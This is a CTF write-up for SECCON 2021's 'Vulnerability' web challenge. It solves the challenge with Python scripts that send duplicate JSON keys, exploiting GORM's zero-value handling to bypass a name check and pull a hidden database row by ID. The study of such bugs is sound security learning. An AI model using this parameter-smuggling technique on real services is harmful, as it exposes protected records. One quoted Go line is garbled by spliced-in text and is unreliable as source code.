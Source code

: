 *2021-12-11*

#ctf-writeup 

Link: https://ctf.seccon.jp/

***

# Vulnerability
**Category: web**

## Description
How many vulnerabilities do you know?
https://vulnerabilities.quals.seccon.jp

## Method
The code is written in Go. This website also has two API Endpoints: a GET request to https://vulnerabilities.quals.seccon.jp/api/vulnerability will give you all the vulnerabilities in the database (except the flag), and a POST request to the same endpoint with the parameter `name=?` will give you the details about a specific vulnerability.

There is a vulnerability in the database that corresponds to the name of the flag. Unfortunately the name is set as an environment variable, so it is hidden to us.

## Basic POST script
This script makes a request to get information about the SGAxe vulnerability:

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "SGAxe"
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)
```

It returns the following:

```json
200
{"Logo":"/images/sgaxe.png","URL":"https://cacheoutattack.com/"}
```

## General thoughts
Since the description is: "How many vulnerabilities do you know?", there will likely be a vulnerability with Go, or possibly with Gin.

https://security.snyk.io/vuln/SNYK-GOLANG-GITHUBCOMGINGONICGIN-550031

It's also possible that we can use the way GORM runs queries. Supposedly, if the other fields in the query are blank, it will use the Model object to run the query.

The following query returns the Heartbleed object:

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "Heartbleed",
    "ID" : 1
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)
```

While this one does not, because the ID does not match.

```python
import requests
import json
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload = {
    "Name": "Heartbleed",
    "ID" : 2
    }
resp = requests.post(url, json=payload)
print(resp.status_code)
print(resp.text)

```

The problem is that the Go code checks for fields being either blank or nil through the following lines:

```go
if name, ok := json["Name"]; !ok || name == "" || name == nil {
    c.JSON(400, gin.H{"Error"","DROWN Attack","CCS Injection","httpoxy","Meltdown","Spectre","Foreshadow","MDS","ZombieLoad Attack","RAMBleed","CacheOut","SGAxe"]}: "no \"Name\""})
    return
}
```

## Solution
In order to solve this challenge we need to circumvent the `Name` check. However, the problem is that if we specify a name then we can not get the flag because the name would be added to the SQL query. Since we don't know the name, the query would not return any results.

We need to find a way to make the code think we are sending a name but not have it affect the query.

GORM, the query library used, has the following in it's documentation:
```
NOTE When querying with struct, GORM will only query with non-zero fields, that means if your field’s value is 0, '', false or other zero values, it won’t be used to build query conditions, for example...
```

This means that by making `Name` the empty string, a zero value in Go, then GORM will not evaluate it in the query.

The following JSON seems to work. By sending the name twice, one of them the empty string and the other not, the non-empty string will allow the `Name` check to pass, but the query itself will use the empty string, thus not evaluating it.

```json
{
    "Name": "a",
    "name": "",
}
```

Then, to specify the row containing the flag in the query we can use the `ID` column that was added by the `gorm.Model` when defining the `Vulnerability` struct.

```go
type Vulnerability struct {
    gorm.Model
    Name string
    Logo string
    URL  string
}
```
https://gorm.io/docs/models.html#Embedded-Struct

Flag was the 14th row added, so it's `ID` is 14.

Posting with the following JSON will retrieve the flag:
```json
{
    "Name": "a",
    "name": "",
    "ID": 14
}
```

```json
{"Logo":"/images/SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}.png","URL":"seccon://SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}"}
```

## Solve script
```python
import requests

def main():
    HOST = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"

    json = {
        "Name": "a",
        "name": "",
        "ID": 14
    }

    r = requests.post(HOST, json=json)

    print(r.text)

main()
```

## Flag
`SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}`

***
